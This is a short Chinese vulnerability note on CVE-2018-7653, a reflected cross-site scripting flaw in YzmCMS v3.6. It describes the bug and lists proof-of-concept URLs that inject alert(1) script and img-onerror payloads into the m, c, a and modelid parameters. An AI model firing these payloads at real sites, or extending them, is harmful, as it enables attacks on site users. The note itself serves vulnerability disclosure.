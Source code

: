 ```yaml
---
title: （CVE-2018-7653）YzmCMS v3.6 xss漏洞
id: zhfly3304
---
```


# （CVE-2018-7653）YzmCMS v3.6 xss漏洞

## 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.6版本中存在跨站脚本漏洞。远程攻击者可借助‘a’、‘c’或‘m’参数利用该漏洞注入任意的Web脚本或HTML。

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

### poc

```
http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 

[http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s<img%20src%3Da%20onerror%3Dalert(1)>j4yck&a=init&modelid=1&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes)

[http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4<img%20src%3Da%20onerror%3Dalert(1)>o92wf&c=index&a=init&modelid=1&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes) `[http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd"><script>alert(1)<%2Fscript>opzx0&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes)` 
```

## 参考链接

> https://www.anquanke.com/vul/id/1124944